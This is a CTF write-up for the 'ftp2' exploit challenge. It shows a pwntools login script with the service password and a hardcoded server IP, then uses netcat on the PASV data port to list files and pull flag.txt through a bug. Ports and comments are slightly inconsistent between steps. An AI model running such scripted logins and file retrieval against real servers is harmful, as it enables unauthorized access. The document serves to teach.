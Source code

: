 # Exploit 300 - ftp2

This challenge built off of Reversing300 (ftp) and which bspar solved using Z3. The password to the FTP service is `aDWX-|'`

Since this challenge reuses the Rev300 binary, you should already be familiar with how it looks in IDA.  So if IDA's not already open, go ahead and open it back up...just kidding!  After bspar shared the pass, I threw it into a pwntools script to check out what was going on once logged in.  Here is the script that I used:

```
#!/usr/bin/env python2

from pwn import *
import struct

local = True 	#true = remote, false = local

if local:
	p = process('./ftp_0319deb1c1c033af28613c57da686aa7')
	r = remote('localhost', 12012)
else:
	r = remote('54.175.183.202', 12012)

#context.log_level = 'debug'

print r.recv()
s = r.sendline("USER blankwall")
print r.recvline()
s = r.send("PASS aDWX-|'")
print r.recv()

s = r.interactive()
```
After running the script and logging in, you're presented with:
```
Welcome to FTP server
USER blankwall
Please send password for user blankwall
PASS aDWX-|'
logged in
HELP
USER PASS PASV PORT
NOOP REIN LIST SYST SIZE
RETR STOR PWD CWD
```
The first command I tried was LIST, but the FTP server stated that PASV was requirred first.  So let's type that in.
```
$ pasv
PASV succesful listening on port: 64128
```
Well it looks like the `PASV` command worked and the FTP server is now listening on the port listed.  Let's see if we can connect to it with netcat from another terminal after typing in `LIST`.
```
$ nc 54.172.10.117 63323
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 ftp_0319deb1c1c033af28613c57da686aa7
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 .bashrc
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 .bash_history
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 run.sh
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 flag.txt
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 .profile
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 .bash_logout
drwxr-xr-x 1     0     0         4096 Sep 20 05:22 re_solution.txt
drwxr-xr-x 1     0     0         4096 0         4096  .selected_editor
```
Whoa, it worked!  And look, there's the `re_solution.txt` file that contains the flag for the Reversing300 challenge.  But wait, there's another file named `flag.txt`.  Could that the flag that we need be in here?  Let's find out!  

By now the FTP server will have most likely timed out, so log back in and setup another `PASV` port.  Once logged in type `RETR flag.txt`.  Switch over to the the other terminal that we used for netcat previously and this time enter `nc 54.172.10.117 63323`.  What all of this does is to setup the server to send the `flag.txt` file once we connect to it, and then the content of `flat.txt` will be displayed in our netcat session. 
We end up getting `flag{exploiting_ftp_servers_in_2015}`

Of course this is way too easy.  The challenge was supposed to prevent being able to directly retrieve the `flag.txt` file, but a bug prevented that from happening.
